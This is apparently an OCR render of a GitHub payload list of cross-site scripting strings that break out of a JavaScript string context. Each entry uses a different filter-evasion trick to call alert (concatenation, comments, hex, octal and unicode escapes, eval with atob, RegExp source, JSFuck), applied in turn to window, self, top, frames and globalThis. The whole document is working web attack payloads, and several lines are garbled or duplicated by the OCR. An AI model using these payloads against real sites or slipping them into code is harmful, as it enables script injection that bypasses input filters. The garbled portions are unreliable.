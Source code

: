 ';window['ale'+'rt'](window['doc'+'ument']['dom'+'ain']);//

';self['ale'+'rt'](self['doc'+'ument']['dom'+'ain']);//


';this['ale'+'rt'](this['doc'+'ument']['dom'+'ain']);//

';top['ale'+'rt'](top['doc'+'ument']['dom'+'ain']);//

';parent['ale'+'rt'](parent['doc'+'ument']['dom'+'ain']);//

';frames['ale'+'rt'](frames['doc'+'ument']['dom'+'ain']);//

';globalThis['ale'+'rt'](globalThis['doc'+'ument']['dom'+'ain']);//

';window[/*foo*/'alert'/*bar*/](window[/*foo*/'document'/*bar*/]
['domain']);//

';self[/*foo*/'alert'/*bar*/](self[/*foo*/'document'/*bar*/]['domain']);//
XSS into a JavaScript string: comment syntax (this) ';this[/*foo*/'alert'/*bar*/](this[/*foo*/'document'/*bar*/]['domain']);//
XSS into a JavaScript string: comment syntax (top) ';top[/*foo*/'alert'/*bar*/](top[/*foo*/'document'/*bar*/]['domain']);//
XSS into a JavaScript string: comment syntax
(parent)
';parent[/*foo*/'alert'/*bar*/](parent[/*foo*/'document'/*bar*/]
['domain']);//
XSS into a JavaScript string: comment syntax
(frames)
';frames[/*foo*/'alert'/*bar*/](frames[/*foo*/'document'/*bar*/]
['domain']);//
XSS into a JavaScript string: comment syntax
(globalThis)
';globalThis[/*foo*/'alert'/*bar*/](globalThis[/*foo*/'document'/*bar*/]
['domain']);//
XSS into a JavaScript string: hex escape sequence
(window)
';window['\x61\x6c\x65\x72\x74'](window['\x64\x6f\x63\x75\x6d\x65\x6e\x74']
['\x64\x6f\x6d\x61\x69\x6e']);//
XSS into a JavaScript string: hex escape sequence
(self)
';self['\x61\x6c\x65\x72\x74'](self['\x64\x6f\x63\x75\x6d\x65\x6e\x74']
['\x64\x6f\x6d\x61\x69\x6e']);//
XSS into a JavaScript string: hex escape sequence
(this)
';this['\x61\x6c\x65\x72\x74'](this['\x64\x6f\x63\x75\x6d\x65\x6e\x74']
['\x64\x6f\x6d\x61\x69\x6e']);//
XSS into a JavaScript string: hex escape sequence
(top)
';top['\x61\x6c\x65\x72\x74'](top['\x64\x6f\x63\x75\x6d\x65\x6e\x74']
['\x64\x6f\x6d\x61\x69\x6e']);//
XSS into a JavaScript string: hex escape sequence
(parent)
';parent['\x61\x6c\x65\x72\x74'](parent['\x64\x6f\x63\x75\x6d\x65\x6e\x74']
['\x64\x6f\x6d\x61\x69\x6e']);//
XSS into a JavaScript string: hex escape sequence
(frames)
';frames['\x61\x6c\x65\x72\x74'](frames['\x64\x6f\x63\x75\x6d\x65\x6e\x74']
['\x64\x6f\x6d\x61\x69\x6e']);//
XSS into a JavaScript string: hex escape sequence ';globalThis['\x61\x6c\x65\x72\x74']XSS into a JavaScript string: hex escape sequence
(globalThis)
;globalThis[ \x61\x6c\x65\x72\x74 ]
(globalThis['\x64\x6f\x63\x75\x6d\x65\x6e\x74']
['\x64\x6f\x6d\x61\x69\x6e']);//
XSS into a JavaScript string: hex escape sequence
and base64 encoded string (window)
';window['\x65\x76\x61\x6c']('window["\x61\x6c\x65\x72\x74"]
(window["\x61\x74\x6f\x62"]("WFNT"))');//
XSS into a JavaScript string: hex escape sequence
and base64 encoded string (self)
';self['\x65\x76\x61\x6c']('self["\x61\x6c\x65\x72\x74"]
(self["\x61\x74\x6f\x62"]("WFNT"))');//
XSS into a JavaScript string: hex escape sequence
and base64 encoded string (this)
';this['\x65\x76\x61\x6c']('this["\x61\x6c\x65\x72\x74"]
(this["\x61\x74\x6f\x62"]("WFNT"))');//
XSS into a JavaScript string: hex escape sequence
and base64 encoded string (top)
';top['\x65\x76\x61\x6c']('top["\x61\x6c\x65\x72\x74"]
(top["\x61\x74\x6f\x62"]("WFNT"))');//
XSS into a JavaScript string: hex escape sequence
and base64 encoded string (parent)
';parent['\x65\x76\x61\x6c']('parent["\x61\x6c\x65\x72\x74"]
(parent["\x61\x74\x6f\x62"]("WFNT"))');//
XSS into a JavaScript string: hex escape sequence
and base64 encoded string (frames)
';frames['\x65\x76\x61\x6c']('frames["\x61\x6c\x65\x72\x74"]
(frames["\x61\x74\x6f\x62"]("WFNT"))');//
XSS into a JavaScript string: hex escape sequence
and base64 encoded string (globalThis)
';globalThis['\x65\x76\x61\x6c']('globalThis["\x61\x6c\x65\x72\x74"]
(globalThis["\x61\x74\x6f\x62"]("WFNT"))');//
XSS into a JavaScript string: octal escape sequence
(window)
';window['\141\154\145\162\164']('\130\123\123');//
XSS into a JavaScript string: octal escape sequence
(self)
';self['\141\154\145\162\164']('\130\123\123');//
XSS into a JavaScript string: octal escape sequence
(this)
';this['\141\154\145\162\164']('\130\123\123');//
XSS into a JavaScript string: octal escape sequence
(top)
';top['\141\154\145\162\164']('\130\123\123');//
XSS into a JavaScript string: octal escape sequence
(parent)
';parent['\141\154\145\162\164']('\130\123\123');//
XSS into a JavaScript string: octal escape sequence
(frames)
';frames['\141\154\145\162\164']('\130\123\123');//
XSS into a JavaScript string: octal escape sequence
(globalThis)
';globalThis['\141\154\145\162\164']('\130\123\123');//
XSS into a JavaScript string: unicode escape
(window)
';window['\u{0061}\u{006c}\u{0065}\u{0072}\u{0074}']
('\u{0058}\u{0053}\u{0053}');//
XSS into a JavaScript string: unicode escape (self) ';self['\u{0061}\u{006c}\u{0065}\u{0072}\u{0074}']
('\u{0058}\u{0053}\u{0053}');//
XSS into a JavaScript string: unicode escape (this) ';this['\u{0061}\u{006c}\u{0065}\u{0072}\u{0074}']
('\u{0058}\u{0053}\u{0053}');//
XSS into a JavaScript string: unicode escape (top) ';top['\u{0061}\u{006c}\u{0065}\u{0072}\u{0074}']
('\u{0058}\u{0053}\u{0053}');//
XSS into a JavaScript string: unicode escape
(parent)
';parent['\u{0061}\u{006c}\u{0065}\u{0072}\u{0074}']
('\u{0058}\u{0053}\u{0053}');//
XSS into a JavaScript string: unicode escape
(frames)
';frames['\u{0061}\u{006c}\u{0065}\u{0072}\u{0074}']
('\u{0058}\u{0053}\u{0053}');//
XSS into a JavaScript string: unicode escape
( l b lThi )
';globalThis['\u{0061}\u{006c}\u{0065}\u{0072}\u{0074}']
('\u{0058}\u{0053}\u{0053}');//(globalThis) ( \u{0058}\u{0053}\u{0053} );//
XSS into a JavaScript string: RegExp source
property (window)
';window[/al/.source+/ert/.source](/XSS/.source);//
XSS into a JavaScript string: RegExp source
property (self)
';self[/al/.source+/ert/.source](/XSS/.source);//
XSS into a JavaScript string: RegExp source
property (this)
';this[/al/.source+/ert/.source](/XSS/.source);//
XSS into a JavaScript string: RegExp source
property (top)
';top[/al/.source+/ert/.source](/XSS/.source);//
XSS into a JavaScript string: RegExp source
property (parent)
';parent[/al/.source+/ert/.source](/XSS/.source);//
XSS into a JavaScript string: RegExp source
property (frames)
';frames[/al/.source+/ert/.source](/XSS/.source);//
XSS into a JavaScript string: RegExp source
property (globalThis)
';globalThis[/al/.source+/ert/.source](/XSS/.source);//
XSS into a JavaScript string: Hieroglyphy/JSFuck
(window)
';window[(+{}+[])[+!![]]+(![]+[])[!+[]+!![]]+([][[]]+[])[!+[]+!![]+!![]]+
(!![]+[])[+!![]]+(!![]+[])[+[]]]((+{}+[])[+!![]]);//
XSS into a JavaScript string: Hieroglyphy/JSFuck
(self)
';self[(+{}+[])[+!![]]+(![]+[])[!+[]+!![]]+([][[]]+[])[!+[]+!![]+!![]]+(!!
[]+[])[+!![]]+(!![]+[])[+[]]]((+{}+[])[+!![]]);//
XSS into a JavaScript string: Hieroglyphy/JSFuck
(this)
';this[(+{}+[])[+!![]]+(![]+[])[!+[]+!![]]+([][[]]+[])[!+[]+!![]+!![]]+(!!
[]+[])[+!![]]+(!![]+[])[+[]]]((+{}+[])[+!![]]);//
XSS into a JavaScript string: Hieroglyphy/JSFuck
(top)
';top[(+{}+[])[+!![]]+(![]+[])[!+[]+!![]]+([][[]]+[])[!+[]+!![]+!![]]+(!!
[]+[])[+!![]]+(!![]+[])[+[]]]((+{}+[])[+!![]]);//
XSS into a JavaScript string: Hieroglyphy/JSFuck
(parent)
';parent[(+{}+[])[+!![]]+(![]+[])[!+[]+!![]]+([][[]]+[])[!+[]+!![]+!![]]+
(!![]+[])[+!![]]+(!![]+[])[+[]]]((+{}+[])[+!![]]);//
XSS into a JavaScript string: Hieroglyphy/JSFuck
(frames)
';frames[(+{}+[])[+!![]]+(![]+[])[!+[]+!![]]+([][[]]+[])[!+[]+!![]+!![]]+
(!![]+[])[+!![]]+(!![]+[])[+[]]]((+{}+[])[+!![]]);//
XSS into a JavaScript string: Hieroglyphy/JSFuck
(globalThis)
';globalThis[(+{}+[])[+!![]]+(![]+[])[!+[]+!![]]+([][[]]+[])[!+[]+!![]+!!
[]]+(!![]+[])[+!![]]+(!![]+[])[+[]]]((+{}+[])[+!![]]);//